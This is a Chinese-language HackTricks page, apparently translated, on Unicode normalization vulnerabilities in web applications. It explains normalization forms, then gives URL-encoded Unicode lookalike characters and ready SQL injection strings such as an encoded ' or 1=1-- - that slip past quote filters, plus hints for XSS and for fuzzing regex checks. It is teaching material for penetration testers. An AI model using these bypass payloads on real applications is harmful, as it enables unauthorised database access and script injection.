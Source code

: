 # Unicode Normalization

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**这是对以下内容的总结:** [**https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/**](https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/). 查看以获取更多详细信息（图片来自那里）。

## 理解 Unicode 和规范化

Unicode 规范化是一个确保字符的不同二进制表示标准化为相同二进制值的过程。这个过程在编程和数据处理中的字符串处理至关重要。Unicode 标准定义了两种字符等价性：

1. **规范等价性**：如果字符在打印或显示时具有相同的外观和含义，则认为它们是规范等价的。
2. **兼容等价性**：一种较弱的等价形式，其中字符可能表示相同的抽象字符，但可以以不同的方式显示。

有 **四种 Unicode 规范化算法**：NFC、NFD、NFKC 和 NFKD。每种算法以不同的方式采用规范和兼容性规范化技术。要深入了解，可以在 [Unicode.org](https://unicode.org/) 上探索这些技术。

### 关于 Unicode 编码的关键点

理解 Unicode 编码至关重要，特别是在处理不同系统或语言之间的互操作性问题时。以下是主要要点：

* **代码点和字符**：在 Unicode 中，每个字符或符号都分配一个称为“代码点”的数值。
* **字节表示**：代码点（或字符）在内存中由一个或多个字节表示。例如，LATIN-1 字符（在英语国家常见）使用一个字节表示。然而，字符集较大的语言需要更多字节进行表示。
* **编码**：这个术语指的是字符如何转换为一系列字节。UTF-8 是一种流行的编码标准，其中 ASCII 字符使用一个字节表示，其他字符最多使用四个字节。
* **处理数据**：处理数据的系统必须了解所使用的编码，以正确地将字节流转换为字符。
* **UTF 的变体**：除了 UTF-8，还有其他编码标准，如 UTF-16（使用最少 2 个字节，最多 4 个字节）和 UTF-32（对所有字符使用 4 个字节）。

理解这些概念对于有效处理和缓解因 Unicode 的复杂性及其各种编码方法而产生的潜在问题至关重要。

Unicode 如何规范化两个表示相同字符的不同字节的示例：
```python
unicodedata.normalize("NFKD","chloe\u0301") == unicodedata.normalize("NFKD", "chlo\u00e9")
```
**Unicode 等效字符列表可以在这里找到：** [https://appcheck-ng.com/wp-content/uploads/unicode\_normalization.html](https://appcheck-ng.com/wp-content/uploads/unicode\_normalization.html) 和 [https://0xacb.com/normalization\_table](https://0xacb.com/normalization\_table)

### 发现

如果你能在一个 webapp 中找到一个被回显的值，你可以尝试发送 **‘KELVIN SIGN’ (U+0212A)**，它 **规范化为 "K"**（你可以将其发送为 `%e2%84%aa`）。**如果回显了 "K"**，那么某种 **Unicode 规范化** 正在进行。

另一个 **例子**：`%F0%9D%95%83%E2%85%87%F0%9D%99%A4%F0%9D%93%83%E2%85%88%F0%9D%94%B0%F0%9D%94%A5%F0%9D%99%96%F0%9D%93%83` 在 **unicode** 之后是 `Leonishan`。

## **易受攻击的示例**

### **SQL 注入过滤器绕过**

想象一个网页，它使用字符 `'` 来创建包含用户输入的 SQL 查询。这个网页作为安全措施，**删除** 用户输入中所有出现的字符 **`'`**，但 **在删除之后** 和 **创建查询之前**，它会使用 **Unicode** 对用户输入进行 **规范化**。

然后，一个恶意用户可以插入一个不同的 Unicode 字符，等同于 `' (0x27)`，如 `%ef%bc%87`，当输入被规范化时，会创建一个单引号，从而出现 **SQL 注入漏洞**：

![https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/](<../../.gitbook/assets/image (702).png>)

**一些有趣的 Unicode 字符**

* `o` -- %e1%b4%bc
* `r` -- %e1%b4%bf
* `1` -- %c2%b9
* `=` -- %e2%81%bc
* `/` -- %ef%bc%8f
* `-`-- %ef%b9%a3
* `#`-- %ef%b9%9f
* `*`-- %ef%b9%a1
* `'` -- %ef%bc%87
* `"` -- %ef%bc%82
* `|` -- %ef%bd%9c
```
' or 1=1-- -
%ef%bc%87+%e1%b4%bc%e1%b4%bf+%c2%b9%e2%81%bc%c2%b9%ef%b9%a3%ef%b9%a3+%ef%b9%a3

" or 1=1-- -
%ef%bc%82+%e1%b4%bc%e1%b4%bf+%c2%b9%e2%81%bc%c2%b9%ef%b9%a3%ef%b9%a3+%ef%b9%a3

' || 1==1//
%ef%bc%87+%ef%bd%9c%ef%bd%9c+%c2%b9%e2%81%bc%e2%81%bc%c2%b9%ef%bc%8f%ef%bc%8f

" || 1==1//
%ef%bc%82+%ef%bd%9c%ef%bd%9c+%c2%b9%e2%81%bc%e2%81%bc%c2%b9%ef%bc%8f%ef%bc%8f
```
#### sqlmap 模板

{% embed url="https://github.com/carlospolop/sqlmap_to_unicode_template" %}

### XSS（跨站脚本攻击）

您可以使用以下字符之一来欺骗 webapp 并利用 XSS：

![https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/](<../../.gitbook/assets/image (312) (2).png>)

请注意，例如，第一个建议的 Unicode 字符可以发送为：`%e2%89%ae` 或 `%u226e`

![https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/](<../../.gitbook/assets/image (215) (1) (1).png>)

### 模糊测试正则表达式

当后端 **检查用户输入的正则表达式** 时，**输入** 可能会为 **正则表达式** 进行 **规范化**，但 **不** 会为其 **使用** 的地方进行 **规范化**。例如，在 Open Redirect 或 SSRF 中，正则表达式可能会 **规范化发送的 URL**，但随后 **按原样访问**。

工具 [**recollapse**](https://github.com/0xacb/recollapse) \*\*\*\* 允许 **生成输入的变体** 以模糊测试后端。有关更多信息，请查看 **github** 和这篇 [**文章**](https://0xacb.com/2022/11/21/recollapse/)。

## 参考文献

* [**https://labs.spotify.com/2013/06/18/creative-usernames/**](https://labs.spotify.com/2013/06/18/creative-usernames/)
* [**https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work**](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)
* [**https://jlajara.gitlab.io/posts/2020/02/19/Bypass\_WAF\_Unicode.html**](https://jlajara.gitlab.io/posts/2020/02/19/Bypass\_WAF\_Unicode.html)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
